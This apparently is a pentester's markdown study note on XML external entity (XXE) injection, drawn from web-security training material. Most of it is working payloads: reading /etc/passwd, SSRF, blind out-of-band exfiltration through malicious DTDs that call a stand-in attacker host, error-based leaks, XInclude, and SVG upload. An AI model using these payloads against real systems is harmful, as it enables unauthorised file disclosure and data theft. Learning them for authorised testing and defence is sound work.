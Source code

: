 # XXE Injection

For example, suppose a shopping application checks for the stock level of a product by submitting the following XML to the server:

`<?xml version="1.0" encoding="UTF-8"?> <stockCheck><productId>381</productId></stockCheck>`

The application performs no particular defenses against XXE attacks, so you can exploit the XXE vulnerability to retrieve the `/etc/passwd` file by submitting the following XXE payload:

`<?xml version="1.0" encoding="UTF-8"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> <stockCheck><productId>&xxe;</productId></stockCheck>`

### Exploiting XXE to perform SSRF attacks <a href="#exploiting-xxe-to-perform-ssrf-attacks" id="exploiting-xxe-to-perform-ssrf-attacks"></a>

In the following XXE example, the external entity will cause the server to make a back-end HTTP request to an internal system within the organization's infrastructure:

`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>`

## Blind XXE

You can often detect blind XXE using the same technique as for [XXE SSRF attacks](https://portswigger.net/web-security/xxe#exploiting-xxe-to-perform-ssrf-attacks) but triggering the out-of-band network interaction to a system that you control. For example, you would define an external entity as follows:

`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>`

To bypass input validation you can test for blind XXE using out-of-band detection via XML parameter entities as follows:

`<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>`

### exfiltrate data <a href="#exploiting-blind-xxe-to-exfiltrate-data-out-of-band" id="exploiting-blind-xxe-to-exfiltrate-data-out-of-band"></a>

An example of a malicious DTD to exfiltrate the contents of the `/etc/passwd` file is as follows:

`<!ENTITY % file SYSTEM "file:///etc/passwd"> <!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>"> %eval; %exfiltrate;`

This DTD carries out the following steps:

* Defines an XML parameter entity called `file`, containing the contents of the `/etc/passwd` file.
* Defines an XML parameter entity called `eval`, containing a dynamic declaration of another XML parameter entity called `exfiltrate`. The `exfiltrate` entity will be evaluated by making an HTTP request to the attacker's web server containing the value of the `file` entity within the URL query string.
* Uses the `eval` entity, which causes the dynamic declaration of the `exfiltrate` entity to be performed.
* Uses the `exfiltrate` entity, so that its value is evaluated by requesting the specified URL.

Place the Burp Collaborator payload into a malicious DTD file:

`<!ENTITY % file SYSTEM "file:///etc/hostname"> <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>"> %eval; %exfil;`

Finally, the attacker must submit the following XXE payload to the vulnerable application:

`<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>`

### XXE to retrieve data via error messages <a href="#exploiting-blind-xxe-to-retrieve-data-via-error-messages" id="exploiting-blind-xxe-to-retrieve-data-via-error-messages"></a>

You can trigger an XML parsing error message containing the contents of the `/etc/passwd` file using a malicious external DTD as follows:

`<!ENTITY % file SYSTEM "file:///etc/passwd"> <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>"> %eval; %error;`

### &#x20;XXE by repurposing a local DTD <a href="#exploiting-blind-xxe-by-repurposing-a-local-dtd" id="exploiting-blind-xxe-by-repurposing-a-local-dtd"></a>

For example, suppose there is a DTD file on the server filesystem at the location `/usr/local/app/schema.dtd`, and this DTD file defines an entity called `custom_entity`. An attacker can trigger an XML parsing error message containing the contents of the `/etc/passwd` file by submitting a hybrid DTD like the following:

`<!DOCTYPE foo [ <!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd"> <!ENTITY % custom_entity ' <!ENTITY &#x25; file SYSTEM "file:///etc/passwd"> <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>"> &#x25;eval; &#x25;error; '> %local_dtd; ]>`

#### Locating an existing DTD file to repurpose <a href="#locating-an-existing-dtd-file-to-repurpose" id="locating-an-existing-dtd-file-to-repurpose"></a>

Since this XXE attack involves repurposing an existing DTD on the server filesystem, a key requirement is to locate a suitable file. This is actually quite straightforward. Because the application returns any error messages thrown by the XML parser, you can easily enumerate local DTD files just by attempting to load them from within the internal DTD.

For example, Linux systems using the GNOME desktop environment often have a DTD file at `/usr/share/yelp/dtd/docbookx.dtd`. You can test whether this file is present by submitting the following XXE payload, which will cause an error if the file is missing:

`<!DOCTYPE foo [ <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd"> %local_dtd; ]>`

## Finding hidden attack <a href="#finding-hidden-attack-surface-for-xxe-injection" id="finding-hidden-attack-surface-for-xxe-injection"></a>

### XInclude attacks <a href="#xinclude-attacks" id="xinclude-attacks"></a>

&#x20;you cannot carry out a classic XXE attack, because you don't control the entire XML document and so cannot define or modify a `DOCTYPE` element. However, you might be able to use `XInclude` instead.&#x20;

To perform an `XInclude` attack, you need to reference the `XInclude` namespace and provide the path to the file that you wish to include. For example:

`<foo xmlns:xi="http://www.w3.org/2001/XInclude"> <xi:include parse="text" href="file:///etc/passwd"/></foo>`

change a value

#### XXE attacks via file upload <a href="#xxe-attacks-via-file-upload" id="xxe-attacks-via-file-upload"></a>

Some applications allow users to upload files which are then processed server-side. Some common file formats use XML or contain XML subcomponents. Examples of XML-based formats are office document formats like DOCX and image formats like SVG.

{% code overflow="wrap" %}
```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```
{% endcode %}
